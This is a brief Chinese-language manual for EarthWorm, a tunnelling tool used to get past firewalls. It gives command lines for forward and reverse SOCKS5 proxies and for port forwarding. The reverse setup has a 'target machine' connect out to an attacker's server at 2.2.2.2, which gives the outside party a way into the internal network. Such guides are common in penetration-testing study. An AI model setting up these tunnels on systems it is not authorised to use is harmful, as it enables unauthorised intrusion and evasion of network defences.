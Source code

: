 # EarthWorm使用手册

EarthWorm（简称 EW）是一套轻量便携且功能强大的网络穿透工具，基于标准 C 开发，具有 socks5 代理、端口转发和端口映射三大功能。

官网网站（已被 Google 标黑）：http://rootkiter.com/EarthWorm/

> 该工具能够以“正向”、“反向”、“多级级联”等方式打通一条网络隧道，直达网络深处，用蚯蚓独有的手段突破网络限制，给防火墙松土。

如无特殊说明代理端口均为 1080，服务均为 Socks V5 代理服务.

该工具共有 6 种命令格式（ssocksd、rcsocks、rssocks、lcx_slave、lcx_listen、lcx_tran）。

前三个负责 Socks 代理（ssocksd 正向，后两个反向），lcx 模块可负责端口转发（slave 和 listen 成对使用）与端口映射。

## 正向SOCKS v5服务器

目的：就是开一台 SOCKS5 代理服务器，你本地可以用客户端去连。

``` shell
./ew -s ssocksd -l 1080
```

## 反弹SOCKS v5服务器

目标机器：

``` shell
ew -s rssocks -d 2.2.2.2 -e 888
```

其中，2.2.2.2 这个地址是你想要反弹到的服务器 ip。

---

攻击方的机器：

``` shell
ew -s rcsocks -l 1008 -e 888
```

它监听 888 端口的数据包，转发到 1008 端口

这样，你就可以在本地使用 SOCKS 代理客户端去连本地的 1008 端口使用代理了。

## 本地端口映射(转发)

将所有发往主机 1080 端口的请求转发到 10.10.12.1 的 9999 端口

``` shell
./ew -s lcx_tran -l 1080 -f 10.10.12.1 -g 9999
```

## 参考

https://y4er.com/post/port-forwarding/